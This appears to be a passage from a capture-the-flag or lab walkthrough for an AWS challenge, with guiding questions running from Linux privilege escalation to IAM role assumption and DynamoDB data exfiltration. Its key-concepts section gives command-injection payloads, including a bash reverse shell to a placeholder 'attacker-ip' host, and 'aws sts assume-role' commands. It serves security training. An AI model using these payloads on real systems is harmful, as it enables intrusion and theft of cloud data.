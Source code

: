 ### Phase 3: Privilege Escalation
- What scheduled tasks are running on the system?
- Which files can the current user modify?
- What processes run with elevated privileges?
- How can you leverage cron jobs for escalation?

### Phase 4: Cloud Enumeration
- What IAM role is attached to the instance?
- What permissions does the instance profile have?
- Are there detached EBS volumes?
- What other AWS resources are accessible?

### Phase 5: Data Discovery
- What information is stored on detached volumes?
- What additional IAM roles are referenced?
- What are the trust relationships between roles?
- What hints are provided about escalation paths?

### Phase 6: IAM Privilege Escalation
- How do you assume a secondary IAM role?
- What permissions does the assumed role have?
- Can the role modify its own policies?
- What AWS managed policies provide database access?

### Phase 7: Data Exfiltration
- What DynamoDB tables exist in the account?
- How do you scan table contents programmatically?
- What data classification levels exist?
- Where is the final flag located?

## Key Concepts

### Command Injection
Python's `subprocess.check_output()` with `shell=True` allows command chaining:
```bash
# Basic injection
8.8.8.8; whoami

# Reverse shell injection
8.8.8.8; bash -c 'bash -i >& /dev/tcp/attacker-ip/4444 0>&1'
```

### IAM Role Assumption
```bash
# Assume role
aws sts assume-role \
  --role-arn arn:aws:iam::[account]:role/[role-name] \
  --role-session-name exploit-session

# Export temporary credentials
export AWS_ACCESS_KEY_ID="..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."
```

